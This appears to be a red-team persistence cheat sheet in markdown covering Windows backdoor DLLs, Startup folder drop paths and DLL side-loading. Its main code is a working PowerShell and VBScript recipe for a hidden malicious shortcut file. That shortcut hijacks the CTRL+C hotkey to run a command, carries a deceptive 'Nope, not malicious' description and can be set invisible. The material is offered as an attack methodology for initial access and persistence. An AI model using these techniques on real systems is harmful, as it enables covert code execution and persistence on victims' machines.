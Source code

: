 ## Backdoor DLLs
- [RDP](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/)
- ADFS
- LAPS
- Exchange Macros
- JEA
***
### Startup folder

Just drop a binary. Classic 😎🚩

In current user folder, will trigger when current user signs in:

```plaintext
c:\Users\[USERNAME]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

Or in the startup folder, requires administrative privileges but will trigger as SYSTEM on boot _and_ when any user signs on:

```plaintext
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

***

## DLL-Side-Loading/PATH Hijacking
Download signed executables with known DLL-Side-Loading/PATH Hijacking vulns. Copy them and the forged DLLs to get code execution. [DLL Side-loading Appverif.exe – Fat Rodzianko](https://fatrodzianko.com/2020/02/15/dll-side-loading-appverif-exe/)


***

## Crafting Malicious LNK files via COM
When it comes to execution, what many people don’t know is that Windows shortcuts can be registered with a shortcut key, which in this blog will also be referred to as an “activation key” or “trigger key”.

[![](https://v3ded.github.io/img/blog/abusing-lnk-features-for-initial-access-and-persistence/shortcut_key.png)](https://v3ded.github.io/img/blog/abusing-lnk-features-for-initial-access-and-persistence/shortcut_key.png)

Process Hacker 2 LNK shortcut without an activation key

If a shortcut with an activation key is placed on a user’s desktop, every invocation of the specified key combination will cause the shortcut to execute. Armed with this knowledge we can set the activation key to a frequently used key combination such as `CTRL+C`, `CTRL+V`, `CTRL+Z` and so forth. If the machine is in use by someone who uses shortcuts at least intermittently, we should be able to achieve arbitrary execution on the system. This ideology is the core of our attack methodology.

> **Note:** Explorer only allows shortcuts starting with the CTRL+ALT sequence. Other sequences need to be programmatically set via COM (see the following section).

### Powershell
```powershell
# The following PowerShell script can be used to create a malicious shortcut with a custom activation key:

$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
```

### VBA, VBScript

```vbnet
Set wshell = CreateObject("WScript.Shell")

Dim path
path = wshell.SpecialFolders("Desktop") & "/FakeText.lnk"

Set shortcut              = wshell.CreateShortcut(path)
shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"
shortcut.WindowStyle      = 7
shortcut.TargetPath       = "cmd.exe"
shortcut.Arguments        = "/c calc.exe"
shortcut.WorkingDirectory = "C:"
shortcut.HotKey           = "CTRL+C"
shortcut.Description      = "Nope, not malicious"
shortcut.Save

' Optional if we want to make the link invisible (prevent user clicks)
Set fso       = CreateObject("Scripting.FileSystemObject")
Set mf        = fso.GetFile(path)
mf.Attributes = 2
```

### References
[Abusing LNK "Features" for Initial Access and Persistence (v3ded.github.io)](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)